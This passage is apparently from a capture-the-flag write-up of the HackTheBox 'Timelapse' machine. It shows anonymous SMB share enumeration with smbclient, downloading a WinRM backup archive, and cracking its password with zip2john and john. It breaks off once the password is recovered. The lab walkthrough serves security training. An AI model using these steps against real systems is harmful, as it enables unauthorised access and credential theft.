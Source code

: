 We found some default windows shares but the one looks interesting is `Shares`, let's connect to it.

```terminal
$ smbclient //10.10.11.152/Shares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 16:39:15 2021
  ..                                  D        0  Mon Oct 25 16:39:15 2021
  Dev                                 D        0  Mon Oct 25 20:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 16:48:42 2021

                6367231 blocks of size 4096. 1713503 blocks available
smb: \> ls Dev\
  .                                   D        0  Mon Oct 25 20:40:06 2021
  ..                                  D        0  Mon Oct 25 20:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 16:46:42 2021

                6367231 blocks of size 4096. 1713503 blocks available
smb: \> ls HelpDesk\
  .                                   D        0  Mon Oct 25 16:48:42 2021
  ..                                  D        0  Mon Oct 25 16:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 15:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 15:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 15:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 15:57:44 2021

                6367231 blocks of size 4096. 1713503 blocks available
smb: \> cd Dev\
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (3.9 KiloBytes/sec) (average 3.9 KiloBytes/sec)
smb: \Dev\>
```

We found two directories, `Dev` and `HelpDesk`, the first one has a backup file and the other one contains some windows files.

We download the `winrm_backup.zip` file.

Let's unzip the file.

```terminal
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/timelapse]
└──╼ $ unzip winrm_backup.zip         
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:                                                                                                                                                      ```

The file require a password, we can use `zip2john` to extract the hash and then crack the password using `john`.

```terminal
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/timelapse]
└──╼ $ zip2john winrm_backup.zip > hash                                                                                                                  80 ⨯
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: 2b chk, TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683
                                                                                                                                                              
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/timelapse]
└──╼ $ john -w=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
```